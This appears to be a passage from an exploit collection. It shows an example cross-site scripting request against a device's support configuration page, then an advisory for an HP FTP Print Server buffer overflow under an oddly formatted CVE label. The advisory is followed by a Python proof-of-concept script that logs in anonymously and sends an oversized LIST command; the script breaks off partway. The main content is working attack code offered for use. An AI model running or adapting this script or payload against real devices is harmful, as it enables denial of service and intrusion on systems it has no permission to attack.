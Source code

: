 Example:

``http://[server]/support_param.html/config?Admin_Name=&Admin_Phone=&Product_URL=[XSS]&Tech_URL=[XSS]&Apply=Apply``


# CVE-2006-12-19

````
-HP Printers running FTP Print Server are prone to a buffer-overflow vulnerability. This issue occurs because the application fails to boundscheck user-supplied data before copying it into an insufficiently sized buffer. 

An attacker can exploit this issue to execute arbitrary code within the context of the affected application. Failed exploit attempts will result in a denial of service.

#!/usr/bin/python

import sys
from ftplib import FTP

print "Hewlett-Packard FTP Print Server Version 2.4.5 Buffer Overflow (POC)"
print "Copyright (c) Joxean Koret"
print

if len(sys.argv) == 1:
    print "Usage: %s <target>" % sys.argv[0]
    sys.exit(0)

target = sys.argv[1]

print "[+] Running attack against " + target

try:
    ftp = FTP(target)
except:
    print "[!] Can't connect to target", target, ".", sys.exc_info()[1]
    sys.exit(0)
try:
    msg = ftp.login() # Login anonymously
    print msg
except:
    print "[!] Error logging anonymously.",sys.exc_info()[1]
    sys.exit(0)

buf = "./A"
iMax = 9

for i in range(iMax):
    buf += buf

print "[+] Sending buffer of",len(buf[0:3000]),"byte(s) ... "

try:
    print "[+] Please, note that sometimes your connection will not be dropped. "
    ftp.retrlines("LIST " + buf[0:3000])
    print "[!] Exploit doesn't work :("
    print
    sys.exit(0)
except:
    print "[+] Apparently exploit works. Verifying ... "
    print sys.exc_info()[1]

ftp2 = FTP(target)
````